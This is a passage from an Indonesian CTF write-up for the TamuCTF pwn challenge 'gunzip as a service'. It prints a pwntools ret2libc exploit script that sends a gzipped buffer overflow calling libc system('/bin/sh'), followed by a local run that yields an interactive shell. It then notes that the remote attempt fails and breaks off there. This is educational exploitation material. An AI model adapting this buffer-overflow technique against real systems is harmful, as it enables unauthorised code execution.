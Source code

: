 ```
    os.system("gzip read_binsh")

    read_binsh = open("read_binsh.gz", "rb").read()
    p.send(read_binsh)
    os.system("rm read_binsh.gz")
    p.send("/bin/sh\x00")

    payload = ''
    payload += 'A' * 1048
    # payload += p32(0x0804931f)
    payload += p32(libc_system)
    payload += 'JUNK'
    payload += p32(bss)

    open("payload", "w+").write(payload)
    os.system("gzip payload")

    real_payload = open("payload.gz", "rb").read()

    p.send(real_payload)
    os.system("rm payload.gz")

    p.interactive()

if __name__ == "__main__":
    exploit1()
```
Dan berikut merupakan hasilnya, kami berhasil mendapatkan shell di local. <br>
```
chao at Yu in [~/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE]  on git:master ✗  bcdc4b3 "update readme"
14:10:48 › python payChristo.py
[+] Starting local process './gunzipasaservice': pid 12467
[*] '/home/chao/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE/gunzipasaservice'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Libc leak : 0xf7dfacb0
[*] Libc base : 0xf7d14000
[*] Libc system : 0xf7d51200
[*] Libc /bin/sh : 0xf7e920cf
[*] Switching to interactive mode
\xb0\xb2��\xa0\xb7����ls
core              gunzipasaservice.id1  img1.png       rop.gz
flag.txt          gunzipasaservice.id2  payAldo.py       test.gz
gunzipasaservice      gunzipasaservice.nam  payChristo.py
gunzipasaservice.id0  gunzipasaservice.til  README.md
$ id
uid=1000(chao) gid=1000(chao) groups=1000(chao),4(adm),24(cdrom),27(sudo),29(audio),30(dip),46(plugdev),116(lpadmin),126(sambashare),129(kvm),999(docker)
$  
```
NAMUN SAYANG SEKALI, kami menemukan kasus umum.<br>
```
localhost -> shell
remote -> EOF
```
Hal pertama yang kami pikirkan merupakan karena libc yang berbeda, namun kami sudah mencoba beberapa kemungkinan libc yang dipakai dan tetap mendapatkan **EOF** di remote.<br>
Setelah beberapa saat berpikir, kami menyimpulkan mungkin address **system** atau **/bin/sh** dari libc yang di leak tidak tepat sehingga kami harus mencari alternative untuk mendapatkan shell.<br>